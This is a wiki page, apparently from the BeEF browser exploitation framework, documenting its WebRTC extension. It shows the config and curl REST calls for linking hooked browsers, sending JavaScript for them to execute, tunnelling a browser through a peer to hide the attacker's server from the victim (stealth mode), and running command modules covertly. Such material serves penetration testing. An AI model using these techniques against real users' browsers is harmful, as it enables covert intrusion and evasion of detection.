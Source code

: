 ## Introduction


WebRTC stands for Web Realtime Communications and allows for peer-to-peer communications between two web browsers. The code for the WebRTC Extension can be found [here.](https://github.com/beefproject/beef/tree/master/extensions/webrtc)

By default, BeEF uses XMLHttpRequest objects to poll to your BeEF server every 5 seconds. The logic is in the `updater.js` file of the core BeEF JavaScript client. It executes a `setTimeout()` function call that executes `beef.updater.get_commands()`, requesting the `hook.js` file from the BeEF server.

BeEF has options to use the WebSocket protocol as well, which shifts the comms from a polling mechanism to a more bi-directional streaming method of sending and receiving data between the server and browsers. 

The problem with both the hook polling and WebSocket communication is exposure of the BeEF server. Not only does the IP address of the BeEF server gets exposed over the network, the communications are visible in the "Network" tabs of browser developer tools. This increases the risk of the experienced user realizing that their browser is hooked.

[[Images/beef-hooks.png|align=center]]

## Configuration

to enable it, simply change enable to `true`

```bash
beef:
    extension:
        webrtc:
            name: 'WebRTC'
            enable: false
            authors: ["xntrik"]
            stunservers: '["stun:stun.l.google.com:19302","stun:stun1.l.google.com:19302","turn:numb.viagenie.ca:3478"]'
            # stunservers: '["stun:stun.l.google.com:19302"]'
            turnservers: '{"username": "someone%40somewhere.com", "password": "somepass", "uris": ["turn:numb.viagenie.ca:3478?transport=udp","turn:numb.viagenie.ca:3478?transport=tcp"]}'

```

## Utilization 
WebRTC can be used to retrieve the internal (behind NAT) IP address of the victim machine, using the peer-to-peer connection framework. This command can be found under the Host module folder.

### console usage

When this extension is written, the console module is still usable and supported. Unfortunately, it is no longer usable.

see https://blog.beefproject.com/2015/01/hooked-browser-meshed-networks-with_26.html for console usage examples

## Rest API usage

### Get WebRTC status of a hooked browser

`GET /api/webrtc/status/:id`

**Request**

for getting the status of id 1:
```
curl http://localhost:3000/api/webrtc/status/1?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

**Response**
`{"success":true}`

that means WebRTC is available for that session.

### initiating WebRTC between two hooked browsers


`POST /api/webrtc/go`

**Request**
This initiates WebRTC communication between browsers 1 and 2.

```
curl -d '{"from":1,"to":2}' \
     http://localhost:3000/api/webrtc/go?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

**Response**

`{"success":true}`


### Sending messages

**Request**
This sends a message between browsers 1 and 2.

```
curl -d '{"from":1, "to":2, "message":"Just a plain message"}' \
     http://localhost:3000/api/webrtc/msg?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

**Response**

`{"success":true}`


#### Sending javascript to execute

The built in message handler for executing javascript is `%<code>`, sent just like a normal message.

This sends a message from browser 1 to 2 to execute a piece of JavaScript:

**Request**
```
curl -d '{"from":1, "to":2, "message":"%alert(\"hello\");"}' \
    -H "Content-type: application/json; charset=UTF-8" \
	 http://localhost:3000/api/webrtc/msg?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

### stealth mode

Stealth mode is also sent as a message between two browsers. The `to` browser will be put into stealth mode, tunnelling its communication with the BeEF server through the `from` browser.

### going into stealth mode

**Request**

This puts browser 2 into stealth mode (it stops communicating with the BeEF server)
```
curl -d '{"from":1, "to":2, "message":"!gostealth"}' \
    -H "Content-type: application/json; charset=UTF-8" \
	 http://localhost:3000/api/webrtc/msg?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

### getting out of stealth mode

**Request**

```
curl -d '{"from":1, "to":2, "message":"!endstealth"}' \
    -H "Content-type: application/json; charset=UTF-8" \
	 http://localhost:3000/api/webrtc/msg?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

### Executing modules through WebRTC

**Request**

Tell browser 2 (without communicating with the BeEF server) to execute command 102 through browser 1

the name is name of the option, and value is the corresponding option value.

```
curl -d '{"from":1, "to":2, "cmdid":102, "options":[{"name":"Domain","value":"default_all"}]}' \
    -H "Content-type: application/json; charset=UTF-8" \
	 http://127.0.0.1:3000/api/webrtc/cmdexec?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

The result will be displayed in the BeEF terminal output, and stored in the command events of the `from` browser.


### Getting event data from a browser

`GET /api/webrtc/cmdevents/:id`

**Request**

Get all events on browser 1

```
curl http://127.0.0.1:3000/api/webrtc/cmdevents/1?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

**Response**

```
{"events_count":1,"events":[{"id":1,"hb_id":1,"target_id":2,"status":"fingerprint=223c40dcd69ee362dcf478a80d34bbe8&components=[{\"key\":\"userAgent\",\"value\":\"Mozill...(snipped)
```

> the results of command execution are stored in the `from` browser. In this case, all command results from browser 2 are accessible through requesting events on browser 1.

For further information about the extension, read example RestAPI usage in 

`<beef_root>/extensions/webrtc/rest/webrtc.rb`


***
[[Module Creation|Module-creation]] | [[Development Organization|Development-Organization]]